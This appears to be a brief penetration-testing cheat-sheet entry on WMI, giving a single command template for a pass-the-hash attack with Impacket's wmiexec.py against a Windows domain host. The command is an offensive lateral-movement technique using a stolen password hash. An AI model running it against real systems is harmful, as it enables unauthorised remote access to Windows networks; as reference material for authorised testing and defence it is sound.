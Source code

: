 # WMI

## Pass the Hash

`wmiexec.py -hashes ":<hash>" -dc-ip <ip> <user>@<host>.<domain>`

tags: wmi